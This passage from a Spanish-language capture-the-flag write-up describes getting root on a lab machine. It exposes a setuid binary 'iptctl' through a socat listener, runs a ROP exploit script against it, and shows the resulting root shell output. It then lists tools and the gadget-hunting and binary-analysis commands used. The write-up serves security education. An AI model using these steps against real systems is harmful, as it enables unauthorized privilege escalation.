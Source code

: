 **Paso 1: En la máquina objetivo**
```bash
# Iniciar listener con socat
socat TCP-LISTEN:9002 EXEC:"/opt/iptctl/iptctl -i"
```

**Paso 2: En tu máquina atacante**
```bash
# Activar entorno virtual (si no está activo)
source venv/bin/activate

# Ejecutar exploit
cd Scripts/
python3 exploit.py
```

**Resultado esperado:**
```
[*] Conectando al servicio socat...
[+] Conexión establecida
[*] Enviando payload ROP...
[+] ¡Shell obtenida como root!
[*] Switching to interactive mode
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Recursos y herramientas utilizadas

### Herramientas principales
- **Nmap** - Escaneo de puertos y servicios
- **Gobuster/Wfuzz** - Enumeración de directorios y subdominios
- **BurpSuite** - Interceptación y análisis de peticiones HTTP
- **GDB-PEDA** - Debugging y análisis de binarios
- **Ropper** - Búsqueda de gadgets ROP
- **Pwntools** - Framework de explotación

### Comandos clave para análisis del binario

```bash
# Verificar protecciones del binario
checksec iptctl

# Buscar gadgets ROP
ropper --file ./iptctl --search "pop rdi"
ropper --file ./iptctl --search "pop rsi"

# Obtener direcciones de funciones PLT
objdump -D iptctl | grep -E "(setuid|execvp)"

# Encontrar string "sh" en el binario
strings -a -t x iptctl | grep "^.*sh$"
```

---